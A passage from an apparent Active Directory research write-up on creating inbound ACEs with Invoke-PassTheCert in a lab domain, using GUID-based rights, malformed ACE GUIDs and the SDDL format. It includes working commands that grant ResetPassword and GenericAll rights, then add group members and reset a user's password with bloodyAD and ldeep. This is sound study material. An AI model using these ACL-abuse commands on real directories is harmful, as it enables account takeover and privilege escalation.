[...]
```

```powershell
jamarir@kali:~$ bloodyAD --dns 192.168.56.202 --dc-ip 192.168.56.202 --host 'dc02.jamad.local' -d 'jamad.local' -u 'lfurmates' -p 'LF_P@ssw0rd123!' add groupMember 'KindaGroupy' 'lfurmates'
[+] lfurmates added to KindaGroupy
```

#### `Reset Password`'ed User (i.e. Self-Membership + Self)

As yet another example, if we want to provide a principal with `Reset Password` rights over a user, as per `PrincipalToUser.txt`, we know the good ACE format is `['AccessMask'='ExtendedRight', 'ObjectAceType'='User-Force-Change-Password']`:

```powershell
=================================================================================

https://learn.microsoft.com/en-us/windows/win32/adschema/r-User-Force-Change-Password

[ResetPassword]->User

    ObjectAceTypeName      : User-Force-Change-Password
    AccessMaskNames        : ExtendedRight
    ObjectAceFlags         : ObjectAceTypePresent
    ObjectAceType          : 00299570-246d-11d0-a768-00aa006e0529
    InheritedObjectAceType : 00000000-0000-0000-0000-000000000000
    BinaryLength           : 56
    AceQualifier           : AccessAllowed
    IsCallback             : False
    OpaqueLength           : 0
    AccessMask             : 256
    SecurityIdentifier     : S-1-5-21-[...]
    AceType                : AccessAllowedObject
    AceFlags               : None
    IsInherited            : False
    InheritanceFlags       : None
    PropagationFlags       : None
    AuditFlags             : None

=================================================================================
```

Note that because its `ObjectAceType`'s GUID is `00299570-246d-11d0-a768-00aa006e0529`, we could, alternatively, manually set the GUID instead of the `User-Force-Change-Password` name. For instance, the followings allow principal `Wanha BE. EMOVEMENTED` to change the password of `Smart SC. CARDY` (i.e. creating an allowance inbound ACE into the `Smart SC. CARDY`'s `nTSecurityDescriptor` attribute):

```powershell
PS > Invoke-PassTheCert -Action 'CreateInboundACE' -LdapConnection $LdapConnection -Identity 'CN=Wanha BE. EMOVEMENTED,CN=Users,DC=JAMAD,DC=LOCAL' -AceQualifier 'AccessAllowed' -AccessMaskNames 'ExtendedRight' -AccessRightName 'User-Force-Change-Password' -Target 'CN=Smart SC. CARDY,CN=Users,DC=JAMAD,DC=LOCAL'
PS > Invoke-PassTheCert -Action 'CreateInboundACE' -LdapConnection $LdapConnection -Identity 'CN=Wanha BE. EMOVEMENTED,CN=Users,DC=JAMAD,DC=LOCAL' -AceQualifier 'AccessAllowed' -AccessMaskNames 'ExtendedRight' -AccessRightGUID '00299570-246d-11d0-a768-00aa006e0529' -Target 'CN=Smart SC. CARDY,CN=Users,DC=JAMAD,DC=LOCAL'
[...]
[+] Successfully Created Inbound ACE [AceQualifier='AccessAllowed', AccessMasks='ExtendedRight', ObjectAceType='00299570-246d-11d0-a768-00aa006e0529'] Provided To Account 'CN=Wanha BE. EMOVEMENTED,CN=Users,DC=JAMAD,DC=LOCAL' Towards 'CN=Smart SC. CARDY,CN=Users,DC=JAMAD,DC=LOCAL' !
[...]
```

```powershell
jamarir@kali:~$ ldeep ldap -d 'jamad.local' -s 192.168.56.202 -u 'wemovemented' -p 'WE_P@ssw0rd123!' modify_password 'scardy' 'SC_NewP@ssw0rd123!'
[+] Password of scardy changed
```

## Inorrectly Creating An Arbritrary Inbound ACE GUID ?

As we saw ealier, the following `GenericAll` is legitimate, as it grants the principal `Wanha BE. ERUT` rights to change the password of `Smart SC. CARDY`:

```powershell
PS > Invoke-PassTheCert -Action 'CreateInboundACE' -LdapConnection $LdapConnection -Identity 'CN=Wanha WE. ERUT,CN=Users,DC=JAMAD,DC=LOCAL' -AceQualifier 'AccessAllowed' -AccessMaskNames 'GenericAll' -Target 'CN=Smart SC. CARDY,CN=Users,DC=JAMAD,DC=LOCAL'
[...]
[+] Successfully Created Inbound ACE [AceQualifier='AccessAllowed', AccessMasks='GenericAll', ObjectAceType=NULL] Provided To Account 'CN=Wanha BE. ERUT,CN=Users,DC=JAMAD,DC=LOCAL' Towards 'CN=Smart SC. CARDY,CN=Users,DC=JAMAD,DC=LOCAL' !
```

Hence, we can, as `Wanha BE. ERUT`, change the password of `scardy`, using [ldeep](https://github.com/franc-pentest/ldeep/tree/2471ae6e562f7d85b939c346bc233675c6397e17) for example:

```powershell
jamarir@kali:~$ ldeep ldap -d 'jamad.local' -s 192.168.56.202 -u 'werut' -p 'WE_P@ssw0rd123!' modify_password 'scardy' 'SC_NewP@ssw0rd123!'
[+] Password of scardy changed
```

### But Correct AccessMasks ?

However, if we execute the exact same command, but with an arbitrary `ObjectAceType` GUID, no permission is granted anymore:

```powershell
PS > Invoke-PassTheCert -Action 'CreateInboundACE' -LdapConnection $LdapConnection -Identity 'CN=Wanha BE. ERUT,CN=Users,DC=JAMAD,DC=LOCAL' -AceQualifier 'AccessAllowed' -AccessMaskNames 'GenericAll' -Target 'CN=Smart SC. CARDY,CN=Users,DC=JAMAD,DC=LOCAL' -AccessRightGUID '12345678-1234-1234-1234-123456789012'
[...]
[+] Successfully Created Inbound ACE [AceQualifier='AccessAllowed', AccessMasks='GenericAll', ObjectAceType='12345678-1234-1234-1234-123456789012' (?¿PS_Whut_SP¿?)] Provided To Account 'CN=Wanha BE. ERUT,CN=Users,DC=JAMAD,DC=LOCAL' Towards 'CN=Smart SC. CARDY,CN=Users,DC=JAMAD,DC=LOCAL' !


ObjectAceTypeName      :
AccessMaskNames        : GenericAll
ObjectAceFlags         : ObjectAceTypePresent
ObjectAceType          : 12345678-1234-1234-1234-123456789012
InheritedObjectAceType : 00000000-0000-0000-0000-000000000000
BinaryLength           : 56
AceQualifier           : AccessAllowed
IsCallback             : False
OpaqueLength           : 0
AccessMask             : 983551
SecurityIdentifier     : S-1-5-21-2539905369-2457893589-779357875-1151
AceType                : AccessAllowedObject
AceFlags               : None
IsInherited            : False
InheritanceFlags       : None
PropagationFlags       : None
AuditFlags             : None
```

The inbound ACE is malformed, thus NOT operational:

```powershell
jamarir@kali:~$ ldeep ldap -d 'jamad.local' -s 192.168.56.202 -u 'werut' -p 'WE_P@ssw0rd123!' modify_password 'scardy' 'SC_NewP@ssw0rd123!'
[!] Unable to change scardy's password, check domain password policy or privileges
```

### And Incorrect `ObjectAceType` ?

Last (but definitely not least?), it's *may* be possible to create arbitrary and invalid `[ObjectAceType, AccessMasks]` pairs (especially if the associated `ObjectAceType`'s GUID is changed to an arbitrary, while [*inexistent*/undocumented](https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-adts/1522b774-6464-41a3-87a5-1e5633c3fbbb), value). Indeed, whenever malformed, such arbitrary `ObjectAceType` GUIDs aren't rejected, but inserted into the target's `nTSecurityDescriptor` attribute.

Below, the `ObjectAceType` with GUID `12345678-1234-1234-1234-123456789012` definitely doesn't exist (at least, as per [the documentation](https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-adts/1522b774-6464-41a3-87a5-1e5633c3fbbb)), but may be created as follows, if we manually set the `-AccessRightGUID` parameter (instead of conveniently using the `AccessRightName` option):

```powershell
PS > Invoke-PassTheCert -Action 'CreateInboundACE' -LdapConnection $LdapConnection -Identity 'CN=Wanha BE. ERUT,CN=Users,DC=JAMAD,DC=LOCAL' -AceQualifier 'AccessAllowed' -AccessMaskNames 'ExtendedRight' -AccessRightGUID '12345678-1234-1234-1234-123456789012' -Target 'CN=Smart SC. CARDY,CN=Users,DC=JAMAD,DC=LOCAL'
[...]
[+] Successfully Created Inbound ACE [AceQualifier='AccessAllowed', AccessMasks='ExtendedRight', ObjectAceType='12345678-1234-1234-1234-123456789012' (?¿PS_Whut_SP¿?)] Provided To Account 'CN=Wanha BE. ERUT,CN=Users,DC=JAMAD,DC=LOCAL' Towards 'CN=Smart SC. CARDY,CN=Users,DC=JAMAD,DC=LOCAL' !


ObjectAceTypeName      :
AccessMaskNames        : ExtendedRight
ObjectAceFlags         : ObjectAceTypePresent
ObjectAceType          : 12345678-1234-1234-1234-123456789012
InheritedObjectAceType : 00000000-0000-0000-0000-000000000000
BinaryLength           : 56
AceQualifier           : AccessAllowed
IsCallback             : False
OpaqueLength           : 0
AccessMask             : 256
SecurityIdentifier     : S-1-5-21-2539905369-2457893589-779357875-1151
AceType                : AccessAllowedObject
AceFlags               : None
IsInherited            : False
InheritanceFlags       : None
PropagationFlags       : None
AuditFlags             : None
```

We may confirm it has indeed been created, as trying to re-provide it errors-out with `Inbound ACE [...] Already Exists !`:

```powershell
PS > Invoke-PassTheCert -Action 'CreateInboundACE' -LdapConnection $LdapConnection -Identity 'CN=Wanha BE. ERUT,CN=Users,DC=JAMAD,DC=LOCAL' -AceQualifier 'AccessAllowed' -AccessMaskNames 'ExtendedRight' -AccessRightGUID '12345678-1234-1234-1234-123456789012' -Target 'CN=Smart SC. CARDY,CN=Users,DC=JAMAD,DC=LOCAL'
[...]
[!] Inbound ACE [AceQualifier='AccessAllowed', AccessMasks='ExtendedRight', ObjectAceType='12345678-1234-1234-1234-123456789012' (?¿PS_Whut_SP¿?)] Provided To Account 'CN=Wanha BE. ERUT,CN=Users,DC=JAMAD,DC=LOCAL' Towards 'CN=Smart SC. CARDY,CN=Users,DC=JAMAD,DC=LOCAL' Already Exists !
```


We may confirm, yet again, it has indeed been created, as looking fot `Smart SC. CARDY`'s inbound ACEs shows the created ACE entry:

```powershell
PS > Invoke-PassTheCert -Action 'GetInboundACEs' -LdapConnection $LdapConnection -Identity 'CN=Smart SC. CARDY,CN=Users,DC=JAMAD,DC=LOCAL' |?{$_.ObjectAceType -eq '12345678-1234-1234-1234-123456789012'}
[...]
ObjectAceTypeName      :
AccessMaskNames        : ExtendedRight
ObjectAceFlags         : ObjectAceTypePresent
ObjectAceType          : 12345678-1234-1234-1234-123456789012
InheritedObjectAceType : 00000000-0000-0000-0000-000000000000
BinaryLength           : 56
AceQualifier           : AccessAllowed
IsCallback             : False
OpaqueLength           : 0
AccessMask             : 256
SecurityIdentifier     : S-1-5-21-2539905369-2457893589-779357875-1151
AceType                : AccessAllowedObject
AceFlags               : None
IsInherited            : False
InheritanceFlags       : None
PropagationFlags       : None
AuditFlags             : None
```

Which shows up as: 

- `UNKNOWN` (instead of its name) using [NetEXEC](https://www.netexec.wiki/):

```powershell
jamarir@kali:~$ nxc ldap 192.168.56.202 -d 'jamad.local' -u 'User' -p 'USR_P@ssw0rd123!' -M daclread -o ACTION=read PRINCIPAL_DN='CN=Wanha BE. ERUT,CN=Users,DC=JAMAD,DC=LOCAL' TARGET_DN='CN=Smart SC. CARDY,CN=Users,DC=JAMAD,DC=LOCAL'
LDAP        192.168.56.202  389    DC02             [*] Windows Server 2022 Build 20348 (name:DC02) (domain:JAMAD.LOCAL)
LDAP        192.168.56.202  389    DC02             [+] jamad.local\User:USR_P@ssw0rd123!
DACLREAD    192.168.56.202  389    DC02             Be careful, this module cannot read the DACLS recursively.
DACLREAD    192.168.56.202  389    DC02             Target principal found in LDAP (CN=Smart SC. CARDY,CN=Users,DC=JAMAD,DC=LOCAL)
DACLREAD    192.168.56.202  389    DC02             ACE[0] info
DACLREAD    192.168.56.202  389    DC02                 ACE Type                  : ACCESS_ALLOWED_OBJECT_ACE
DACLREAD    192.168.56.202  389    DC02                 ACE flags                 : None
DACLREAD    192.168.56.202  389    DC02                 Access mask               : ControlAccess
DACLREAD    192.168.56.202  389    DC02                 Flags                     : ACE_OBJECT_TYPE_PRESENT
DACLREAD    192.168.56.202  389    DC02                 Object type (GUID)        : UNKNOWN (12345678-1234-1234-1234-123456789012)
DACLREAD    192.168.56.202  389    DC02                 Trustee (SID)             : werut (S-1-5-21-2539905369-2457893589-779357875-1151)
```

- `{12345678-1234-1234-1234-123456789012}` (instead of its name) using [PywerView](https://github.com/the-useless-one/pywerview/tree/3334a9189951321d850b2dca6ed69e9ecc30c7dd):

```powershell
jamarir@kali:~$ pywerview.py get-objectacl -w 'jamad.local' -u 'User' -p 'USR_P@ssw0rd123!' --dc-ip 192.168.56.202 -d 'jamad.local' --resolve-sids --resolve-guids --sam-account-name 'scardy'
[...]
objectdn:               CN=Smart SC. CARDY,CN=Users,DC=JAMAD,DC=LOCAL
objectsid:              S-1-5-21-2539905369-2457893589-779357875-1125
acetype:                ACCESS_ALLOWED_OBJECT_ACE
binarysize:             56
aceflags:
accessmask:             256
activedirectoryrights:  extended_right
isinherited:            False
securityidentifier:     CN=Wanha BE. ERUT,CN=Users,DC=JAMAD,DC=LOCAL
objectaceflags:         object_ace_type_present
objectacetype:          {12345678-1234-1234-1234-123456789012}
inheritedobjectacetype: All
iscallbak:              False
[...]
```


We may confirm, yet again, trying to delete it, which works:

```powershell
PS > Invoke-PassTheCert -Action 'DeleteInboundACE' -LdapConnection $LdapConnection -Identity 'CN=Wanha BE. ERUT,CN=Users,DC=JAMAD,DC=LOCAL' -AceQualifier 'AccessAllowed' -AccessMaskNames 'ExtendedRight' -AccessRightGUID '12345678-1234-1234-1234-123456789012' -Target 'CN=Smart SC. CARDY,CN=Users,DC=JAMAD,DC=LOCAL'
[...]
[+] Successfully Deleted Inbound ACE [AceQualifier='AccessAllowed', AccessMasks='ExtendedRight', ObjectAceType='12345678-1234-1234-1234-123456789012'] Provided To Account 'CN=Wanha BE. ERUT,CN=Users,DC=JAMAD,DC=LOCAL' Towards 'CN=Smart SC. CARDY,CN=Users,DC=JAMAD,DC=LOCAL' !
```

We may confirm, yet again, it has been deleted, as trying to re-delete it errors-out with `Inbound ACE [...] Doesn't Exist !`:

```powershell
PS > Invoke-PassTheCert -Action 'DeleteInboundACE' -LdapConnection $LdapConnection -Identity 'CN=Wanha BE. ERUT,CN=Users,DC=JAMAD,DC=LOCAL' -AceQualifier 'AccessAllowed' -AccessMaskNames 'ExtendedRight' -AccessRightGUID '12345678-1234-1234-1234-123456789012' -Target 'CN=Smart SC. CARDY,CN=Users,DC=JAMAD,DC=LOCAL'
[...]
[!] Inbound ACE [AceQualifier='AccessAllowed', AccessMasks='ExtendedRight', ObjectAceType='12345678-1234-1234-1234-123456789012'] Provided To Account 'CN=Wanha BE. ERUT,CN=Users,DC=JAMAD,DC=LOCAL' Towards 'CN=Smart SC. CARDY,CN=Users,DC=JAMAD,DC=LOCAL' Doesn't Exist !
``` 

### ?¿Special Permissions¿?

Empirically speaking, when such unknown ACEs are provided to principals, they're checking [the `Special permissions` box in the object's `Security` tab](https://superuser.com/questions/1828928/how-do-i-enable-windows-special-permissions-in-the-security-tab). 

> Can specifying inexistant `ObjectAceType` GUIDs generate Special Permissions triggering strange behaviors ? `¯\_(ツ)_/¯`


# ...That Are For Advanced Security SDDL Stuff

> *A Few Days Later...*

So far, we may grant rights to principals over objects. 
For instance, we may grant user `A` FullControl permission against user `B`.

But one question remains: What if we only want to grant a principal rights against ONLY one attribute of the targeted object ?

## SDDL Format

Exactly pin-pointing which principal have which access against a targeted object's attribute can be done through the GUI in the DC, in the `Active Directory Users and Computers > Security > Advanced > Permissions` menu.
Here, we may exactly pin-point which principal have which right against the targeted object.

<div align="center">

</div>

For instance, let's consider a brand new `John JD. DOE` user, with the following inbound ACEs set (i.e. it's the target of the ACEs):

```powershell
$LdapConnection = Invoke-PassTheCert-GetLDAPConnectionInstance -Server '192.168.56.202' -Certificate .\User.pfx
$SearchResponse = $LdapConnection.SendRequest(
    (New-Object System.DirectoryServices.Protocols.SearchRequest(
        'CN=John JD. DOE,CN=Users,DC=JAMAD,DC=LOCAL', 
        '(objectClass=*)', 
        [System.DirectoryServices.SearchScope]::Base,
        'nTSecurityDescriptor'
    ))
)
$SDBytes = $SearchResponse.Entries[0].Attributes['nTSecurityDescriptor'][0]
$SD = New-Object System.Security.AccessControl.RawSecurityDescriptor($SDBytes, 0)
```

The ACEs (i.e. the content of its `nTSecurityDescriptor` attribute) can be translated into SDDL format using [GetSddlForm](https://learn.microsoft.com/en-us/dotnet/api/system.security.accesscontrol.genericsecuritydescriptor.getsddlform):

```powershell
$SD.GetSddlForm([System.Security.AccessControl.AccessControlSections]::All)
O:S-1-5-21-2539905369-2457893589-779357875-512G:S-1-5-21-2539905369-2457893589-779357875-512D:AI(OA;;RP;4c164200-20c0-11d0-a768-00aa006e0529;;S-1-5-21-2539905369-2457893589-779357875-553)(OA;;RP;5f202010-79a5-11d0-9020-00c04fc2d4cf;;S-1-5-21-2539905369-2457893589-779357875-553)(OA;;RP;bc0ac240-79a9-11d0-9020-00c04fc2d4cf;;S-1-5-21-2539905369-2457893589-779357875-553)(OA;;RP;037088f8-0ae1-11d2-b422-00a0c968f939;;S-1-5-21-2539905369-2457893589-779357875-553)(OA;;RPWP;bf967a7f-0de6-11d0-a285-00aa003049e2;;S-1-5-21-2539905369-2457893589-779357875-517)(OA;;RP;46a9b11d-60ae-405a-b7e8-ff8a58d456d2;;S-1-5-32-560)(OA;;RPWP;6db69a1c-9422-11d1-aebd-0000f80367c1;;S-1-5-32-561)(OA;;RPWP;5805bc62-bdc9-4428-a5e2-856a0f4c185e;;S-1-5-32-561)(OA;;CR;ab721a53-1e2f-11d0-9819-00aa0040529b;;WD)(OA;;CR;ab721a53-1e2f-11d0-9819-00aa0040529b;;PS)(OA;;CR;ab721a54-1e2f-11d0-9819-00aa0040529b;;PS)(OA;;CR;ab721a56-1e2f-11d0-9819-00aa0040529b;;PS)(OA;;RP;59ba2f42-79a2-11d0-9020-00c04fc2d3cf;;AU)(OA;;RP;e48d0154-bcf8-11d1-8702-00c04fb96050;;AU)(OA;;RP;77b5b886-944a-11d1-aebd-0000f80367c1;;AU)(OA;;RP;e45795b3-9455-11d1-aebd-0000f80367c1;;AU)(OA;;RPWP;77b5b886-944a-11d1-aebd-0000f80367c1;;PS)(OA;;RPWP;e45795b2-9455-11d1-aebd-0000f80367c1;;PS)(OA;;RPWP;e45795b3-9455-11d1-aebd-0000f80367c1;;PS)(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;S-1-5-21-2539905369-2457893589-779357875-512)(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;AO)(A;;RC;;;AU)(A;;LCRPLORC;;;PS)(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;SY)(OA;CIIOID;RP;4c164200-20c0-11d0-a768-00aa006e0529;4828cc14-1437-45bc-9b07-ad6f015e5f28;RU)(OA;CIID;RP;4c164200-20c0-11d0-a768-00aa006e0529;bf967aba-0de6-11d0-a285-00aa003049e2;RU)(OA;CIIOID;RP;5f202010-79a5-11d0-9020-00c04fc2d4cf;4828cc14-1437-45bc-9b07-ad6f015e5f28;RU)(OA;CIID;RP;5f202010-79a5-11d0-9020-00c04fc2d4cf;bf967aba-0de6-11d0-a285-00aa003049e2;RU)(OA;CIIOID;RP;bc0ac240-79a9-11d0-9020-00c04fc2d4cf;4828cc14-1437-45bc-9b07-ad6f015e5f28;RU)(OA;CIID;RP;bc0ac240-79a9-11d0-9020-00c04fc2d4cf;bf967aba-0de6-11d0-a285-00aa003049e2;RU)(OA;CIIOID;RP;59ba2f42-79a2-11d0-9020-00c04fc2d3cf;4828cc14-1437-45bc-9b07-ad6f015e5f28;RU)(OA;CIID;RP;59ba2f42-79a2-11d0-9020-00c04fc2d3cf;bf967aba-0de6-11d0-a285-00aa003049e2;RU)(OA;CIIOID;RP;037088f8-0ae1-11d2-b422-00a0c968f939;4828cc14-1437-45bc-9b07-ad6f015e5f28;RU)(OA;CIID;RP;037088f8-0ae1-11d2-b422-00a0c968f939;bf967aba-0de6-11d0-a285-00aa003049e2;RU)(OA;CIID;RPWP;5b47d60f-6090-40b2-9f37-2a4de88f3063;;S-1-5-21-2539905369-2457893589-779357875-526)(OA;CIID;RPWP;5b47d60f-6090-40b2-9f37-2a4de88f3063;;S-1-5-21-2539905369-2457893589-779357875-527)(OA;CIIOID;SW;9b026da6-0d3c-465c-8bee-5199d7165cba;bf967a86-0de6-11d0-a285-00aa003049e2;CO)(OA;CIIOID;SW;9b026da6-0d3c-465c-8bee-5199d7165cba;bf967a86-0de6-11d0-a285-00aa003049e2;PS)(OA;CIIOID;RP;b7c69e6d-2cc7-11d2-854e-00a0c983f608;bf967a86-0de6-11d0-a285-00aa003049e2;ED)(OA;CIIOID;RP;b7c69e6d-2cc7-11d2-854e-00a0c983f608;bf967a9c-0de6-11d0-a285-00aa003049e2;ED)(OA;CIID;RP;b7c69e6d-2cc7-11d2-854e-00a0c983f608;bf967aba-0de6-11d0-a285-00aa003049e2;ED)(OA;CIIOID;WP;ea1b7b93-5e48-46d5-bc6c-4df4fda78a35;bf967a86-0de6-11d0-a285-00aa003049e2;PS)(OA;CIIOID;LCRPLORC;;4828cc14-1437-45bc-9b07-ad6f015e5f28;RU)(OA;CIIOID;LCRPLORC;;bf967a9c-0de6-11d0-a285-00aa003049e2;RU)(OA;CIID;LCRPLORC;;bf967aba-0de6-11d0-a285-00aa003049e2;RU)(OA;CIID;RPWP;3f78c3e5-f79a-46bd-a0b8-9d18116ddc79;;PS)(OA;CIID;RPWPCR;91e647de-d96f-4b70-9557-d63ff4f3ccd8;;PS)(A;CIID;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;S-1-5-21-2539905369-2457893589-779357875-519)(A;CIID;LC;;;RU)(A;CIID;CCLCSWRPWPLOCRSDRCWDWO;;;BA)S:AI(OU;CIIOIDSA;WP;f30e3bbe-9ff0-11d1-b603-0000f80367c1;bf967aa5-0de6-11d0-a285-00aa003049e2;WD)(OU;CIIOIDSA;WP;f30e3bbf-9ff0-11d1-b603-0000f80367c1;bf967aa5-0de6-11d0-a285-00aa003049e2;WD)
```

That giant string is an SDDL (Security Descriptor Definition Language). It's just a more precise way of telling which principal has which access against the object. 
Its format is: [`sddl=[owner-string] [group-string] [dacl-string] [sacl-string]`](https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-dtyp/f4296d69-1c0f-491f-9587-a960b292d070). 
For instance, we may translate the SDDL entry `O:BAD:(A;;RCSDWDWORPWPCCDCLCSWLODTCR;;;S-1-1-0)` into:

- [`O:BAD`](https://learn.microsoft.com/en-us/windows-hardware/drivers/kernel/sddl-for-device-objects): The `Owner` is `BAD` (i.e. `Built-in Administrators` group).

- [`(ACE)`](https://learn.microsoft.com/en-us/windows/win32/secauthz/ace-strings): The SDDL string contains only one ACE entry, whose format is: `(ace_type;ace_flags;rights;object_guid;inherit_object_guid;account_sid;(resource_attribute))`

  - `A;`: Allow
  
  - `;`: No `ace_flags`
  
  - `RCSDWDWORPWPCCDCLCSWLODTCR;`: Provided SDDL Rights are
    - `RC`: SDDL_READ_CONTROL
    - `SD`: SDDL_STANDARD_DELETE
    - `WD`: SDDL_WRITE_DAC
    - `WO`: SDDL_WRITE_OWNER
    - `RP`: SDDL_READ_PROPERTY
    - `WP`: SDDL_WRITE_PROPERTY
    - `CC`: SDDL_CREATE_CHILD
    - `DC`: SDDL_DELETE_CHILD
    - `LC`: SDDL_LIST_CHILDREN
    - `SW`: SDDL_SELF_WRITE
    - `LO`: SDDL_LIST_OBJECT
    - `DT`: SDDL_DELETE_TREE
    - `CR`: SDDL_CONTROL_ACCESS

  - `;`: No `object_guid` (i.e.[ Access Right Name GUID, i.e. `ObjectAceType`, as we *almost* saw previously](https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-adts/1522b774-6464-41a3-87a5-1e5633c3fbbb)).
  
  - `;`: No `inherit_object_guid`
  
  - `S-1-1-0`: [`Everyone`](https://learn.microsoft.com/en-us/windows/win32/secauthz/well-known-sids) is the granted principal.

In other words, if that SDDL entry was to be defined in the `nTSecurityDescriptor` attribute of `John JD. DOE`, then it would grant only one ACE, i.e. `Everyone` would have `RCSDWDWORPWPCCDCLCSWLODTCR` rights against `John JD. DOE` object. Note that the `object_guid` field is empty, as per `PrincipalToUser.txt:FullControl`.

Our previous giant SDDL String may be converted in a human-readable format using the [SDDL-Converter](https://github.com/canix1/SDDL-Converter) tool. Both images below show the same converted SDDL String as above, either from a non-domain-joined computer (thus UNABLE to translate ACEs accordingly), or a domain-joined computer (thus ABLE to translate ACEs accordingly (here, the DC)), respectively:

<div align="center">

</div>

<div align="center">

</div>

## Adding Permissions Over A Specific Attribute ?

### Writable Attribute

Now, say we wanna grant `Des DC. CRYPTATOR` ONLY ONE WRITE permission over the `description` attribute of the targeted object `John JD. DOE`. Then, we can add that WRITE permission ONLY in the `Active Directory Users and Computers > John JD. DOE > Security > Advanced > Permissions` menu, checking the `Write Description` box for principal `Des DC. CRYPTATOR` (fortunately, there's a `Clear all` button at the bottom to clear all default checkboxes...).

<div align="center">
